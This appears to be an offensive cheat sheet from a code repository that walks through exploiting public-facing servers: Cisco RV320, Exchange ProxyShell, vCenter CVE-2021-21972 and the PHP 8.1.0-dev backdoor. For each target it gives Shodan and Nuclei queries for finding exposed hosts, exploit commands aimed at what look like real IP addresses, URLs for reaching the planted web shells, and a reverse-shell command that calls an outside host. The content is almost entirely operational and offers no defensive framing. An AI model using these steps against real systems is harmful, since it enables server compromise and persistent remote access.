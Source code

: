 # Exploit Public-Facing

****

Adversaries may attempt to take advantage of a weakness in an  Internet-facing computer or program using software, data, or commands in  order to cause unintended or unanticipated behavior.

### CVE-2022-6099

allow an attacker to do any of the following: Execute arbitrary code 
Elevate privileges Execute arbitrary commands Bypass authentication and 
authorization protections Fetch and run unsigned software

#### Discovery

##### shodan

```
ssl:RV320  port:"8443"
```

##### Nuclei

```
nuclei -l ..\ips.txt -t nss\cisco-2022.yaml
```

#### Exploit

```bash
python exploit.py 1.2.3.4
```

### **CVE-2021-34473**

This vulnerability allows remote attackers to execute arbitrary code on 
affected installations of Microsoft Exchange Server. Authentication is 
not required to exploit this vulnerability.

#### Discovery

##### shodan

https://github.com/sansatart/scrapts/blob/master/shodan-favicon-hashes.csv

```
http.favicon.hash:1768726119  country:in
```

```
vuln:CVE-2021-34473
```

##### Nuclei

```
nuclei -l ..\ips.txt -t nss\proxyshell.yaml
```

#### Exploit

```
git clone https://github.com/ktecv2000/ProxyShell
```

```
python exploit.py  103.102.101.100  administrator@example.com
```

##### Access web shell

```
https://103.102.101.100/aspnet_client/krnrvt.aspx
```

## CVE-2021-21972

The vSphere Client (HTML5) contains a remote code execution 
vulnerability in a vCenter Server plugin. A malicious actor with network
 access to port 443 may exploit this issue to execute commands with 
unrestricted privileges on the underlying operating system that hosts 
vCenter Server.

#### discovery

##### shodan

```
http.title:"ID_VC_Welcome"
```

##### Nuclei

```
nuclei -l ..\urtl.txt cve:2021-21972
```

#### Exploit

https://github.com/horizon3ai/CVE-2021-21972

```
python CVE-2021-21972.py -t 213.214.215.216  -f nss.jsp -p ProgramData\\VMware\\vCenterServer\\data\\perfcharts\\tc-instance\\webapps\\statsreport\\nss.jsp -o win
```

##### Access web shell

```
https://213.154.80.121/statsreport/nss.jsp?go=netstat
```

### PHP 8.1.0 RCE

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header

#### Discovery

###### censys

```
services.http.response.headers.x_powered_by: PHP/8.1.0-dev
```

###### shodan

```
PHP/8.1.0-dev
```

###### whatweb

```
whatweb http://130.185.123.176:8080
```

#### Exploit

https://github.com/flast101/php-8.1.0-dev-backdoor-rce

```
python3 rshell-php8.py http://130.185.123.176:8080 nooranetred.com 443
```
